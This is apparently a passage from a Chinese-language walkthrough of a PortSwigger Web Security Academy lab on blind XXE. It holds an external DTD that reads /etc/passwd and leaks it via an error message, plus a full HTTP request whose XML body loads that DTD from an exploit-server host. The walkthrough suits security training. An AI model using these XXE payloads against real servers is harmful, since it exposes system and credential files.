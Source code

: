 ```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

[![](assets/1706060044-41a1624048153803eaf3cee9f8c2a73a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131950-08763606-b9af-1.png)  
在请求数据包中构造一下恶意请求

```plain
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

```plain
POST /product/stock HTTP/1.1
Host: 0a1a00ea04105efa80d2ea870040004a.web-security-academy.net
Connection: close
Content-Length: 234
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a1a00ea04105efa80d2ea870040004a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a1a00ea04105efa80d2ea870040004a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=kKTi4dp2ea3n1j7g7UsayQiq3ewv1DMc

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a2500d804f15e248089e9ff01d100dc.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
